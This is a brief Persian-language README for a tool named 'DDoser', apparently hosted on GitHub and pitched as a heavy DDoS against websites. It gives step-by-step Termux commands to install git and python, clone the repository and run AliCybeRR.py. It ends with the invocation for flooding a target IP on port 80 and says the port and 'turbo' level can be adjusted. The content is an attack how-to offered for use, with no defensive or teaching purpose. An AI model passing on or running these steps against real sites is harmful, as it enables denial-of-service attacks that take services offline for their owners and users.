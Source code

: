 # DDoser
دیداس سنگین به سایت
ابتدا وارد ترموکس شین و دستورات زیر بزنین
 
apt update 

apt upgrade -y

pkg install git -y

pkg install python -y

git clone https://github.com/AliCybeRR/DDoser

cd DDoser 

ls

chmod +x AliCybeRR.py

ls

python AliCybeRR.py

خب حالا باید اینجوری بزنین 


python AliCybeRR.py -s target ip -p 80 t-200 


میتونید پورت و توربو هم تغییر بدین

